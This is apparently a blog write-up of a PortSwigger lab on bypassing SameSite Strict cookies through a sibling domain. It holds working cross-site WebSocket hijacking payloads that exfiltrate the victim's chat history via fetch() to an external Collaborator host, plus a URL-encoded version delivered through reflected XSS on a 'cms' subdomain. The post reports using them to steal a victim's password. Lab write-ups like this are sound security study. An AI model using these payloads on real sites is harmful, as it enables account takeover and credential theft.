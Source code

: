 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-13T15:22:00Z
modDatetime: 2024-10-13T09:12:47.400Z
title: SameSite Strict bypass via sibling domain
slug: csrf-portswigger-lab-11
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account. To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.   
---
```


## Objective 

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

## Solution

As mentioned in the lab objective, this is the chat function that is vulnerable to cross site websocket hijacking attack 

![](../../assets/images/bscp/csrf/csrf-36.png)

How we can exploit, this is simple POC that I built it 

```html
<script>
    var ws = new WebSocket('wss://0a68001a041224f68871cf4f00b40051.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ixjsw8wfyq7abbvtx9s7sbls1j7av0jp.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

This is how it works, basically we are calling the chat and sending a `READY` message to the server meaning to establish the connection and if any connection establishes.. then messages passes between parties will be sent to external collab server which kinda performs a OOB interaction 

Then, Once after delivering the payload to victim we may see a collaborator pingback from the websocket server 

![](../../assets/images/bscp/csrf/csrf-37.png)

Now, url encoded the above code where we built it to trigger the OOB interaction into the following POC 

```html
<script>
    document.location = "https://cms-0a51004b0435faa1812061a800a300c2.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%35%31%30%30%34%62%30%34%33%35%66%61%61%31%38%31%32%30%36%31%61%38%30%30%61%33%30%30%63%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%35%72%78%74%30%63%7a%76%35%70%34%77%66%30%36%66%77%34%76%35%35%66%6b%35%67%77%6d%6e%61%64%79%32%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

Here, hwo it works.. we have separate subdomain called `cms` where it has login page which supports both `GET` and `POST` request login and it is vulnerable to XSS via `GET` method 

Pasted the above POC into the exploit server, `Stored it -> Deliver the exploit to victim` and then looking into our colllaborator we got the password of carlos 

![](../../assets/images/bscp/csrf/csrf-38.png)

With the password, we can just login as `carlos` and that solves the lab 